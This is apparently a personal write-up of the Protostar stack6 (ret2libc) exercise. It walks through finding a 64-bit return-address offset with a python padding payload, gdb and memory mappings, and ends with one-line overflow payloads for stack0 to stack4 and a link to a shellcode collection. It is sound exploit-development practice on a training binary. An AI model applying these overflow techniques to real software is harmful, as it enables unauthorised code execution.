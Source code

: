 


# stack6: ret2libc
------------------------------------------------------------------------
+ Follow the setup-metasploit.md

1. `python -c "print 'A' * 70 + 'BBBBCCCCDDDDEEEEFFFFGGGG'"` > stack6exploit
2. gdb -q stack6
3. gdb> break * getpath
4. gdb> run < stack6exploit
5. gdb> continue
6. I get
   ```
   input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCFFGGDDEEEEFFFFGGGG

   Program received signal SIGSEGV, Segmentation fault.
   0x0000474747474646 in ?? ()
   ```
7. 0x47=G and 0x46=F. Since the address starts with 0000, this is porbably
   the last 6 characters of the string. This means the offest is:
   70 (As) + 18 (rest before the error) = 88

8. pwngbg> regs
   gef>    registers

   ```
   RIP  0x474747474646
   ```
         ^the FFGGGG string has overwrtitten the RIP register

9. gdb> info proc mappings
```
process 38731
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /home/user/protostar/stack6
            0x600000           0x601000     0x1000        0x0 /home/user/protostar/stack6
            0x601000           0x602000     0x1000     0x1000 /home/user/protostar/stack6
            0x602000           0x623000    0x21000        0x0 [heap]
      0x7ffff79e2000     0x7ffff7bc9000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7bc9000     0x7ffff7dc9000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dc9000     0x7ffff7dcd000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcd000     0x7ffff7dcf000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcf000     0x7ffff7dd3000     0x4000        0x0 
      0x7ffff7dd3000     0x7ffff7dfc000    0x29000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7fcd000     0x7ffff7fcf000     0x2000        0x0 
      0x7ffff7ff8000     0x7ffff7ffb000     0x3000        0x0 [vvar]
      0x7ffff7ffb000     0x7ffff7ffc000     0x1000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x29000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2a000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]

```


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print('A' * 77)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step